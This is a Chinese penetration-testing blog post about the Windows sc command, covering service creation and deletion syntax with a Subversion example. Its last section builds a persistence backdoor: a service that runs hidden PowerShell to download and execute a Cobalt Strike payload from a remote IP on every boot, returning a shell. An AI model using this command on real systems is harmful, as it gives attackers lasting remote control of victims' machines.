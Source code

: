 ```yaml
---
title: Windows sc命令与权限维持
top: false
cover: false
categories:
- 渗透测试
tags:
- sc
- 添加服务
- 权限维持
abbrlink: 65109
date: 2020-09-22 22:16:57
keywords:
summary:
img:
password:
---
```


`sc`命令用来创建和删除windows服务

#### 使用SC命令创建windows服务

**命令格式：**

```bash
sc [servername] create Servicename [Optionname= Optionvalues]
```

```bash
# servername
可选，可以使用双斜线，如\\\\myserver，也可以是\\\\192.168.0.1来操作远程计算机。如果在本地计算机上操作就不用添加任何参数。

# Servicename
在注册表中为service key制定的名称。注意这个名称是不同于显示名称的（这个名称可以用net start和服务控制面板看到），而SC是使用服务键名来鉴别服务的。

# Optionname
这个optionname和optionvalues参数允许你指定操作命令参数的名称和数值。注意，这一点很重要在操作名称和等号之间是没有空格的。
如果你想要看每个命令的可以用的optionvalues，你可以使用sc command这样的格式。这会为你提供详细的帮助。

# Optionvalues
为optionname的参数的名称指定它的数值。有效数值范围常常限制于哪一个参数的optionname。如果要列表请用sc command来询问每个命令。
```



示例：

```bash
sc create svnservice binpath= "\"D:\Servers\Subversion\bin\svnserve.exe\" --service -r E:\SVN\repository" displayname= "SVNService" depend= Tcpip start= auto  

```

注意：

1. 在`option= xxxxx`格式中，`=`号和后面的内容一定要有空格，如`depend=  Tcpip`

2. 如果命令中的需要进行双引号的嵌套，使用反斜杠加引号 `\"`来进行转义处理。



#### 使用SC命令删除windows服务

从注册表中删除服务子项。如果服务正在运行或者另一个进程有一个该服务的打开句柄，那么此服务将标记为删除。

语法：

```bash
sc [ServerName] delete [ServiceName] 
```

示例：

```bash
sc delete svnservice
```





#### 服务自启动后门

这里使用Cobalt Strike生成了一个powershell的下载后门的payload（菜单栏，Attacks-->Web Drive

-by-->Scaripted Web Delivery，生成powershell后门）

```bash
sc create "Name" binpath= "cmd /c start powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.28.142:8080/a'))\"" 

sc description Name "Just For Test" # 设置服务的描述字符串 
sc config Name start= auto	 # 设置这个服务为自动启动 
net start Name ``# 启动服务

# 重启服务器后，成功返回一个shell
```

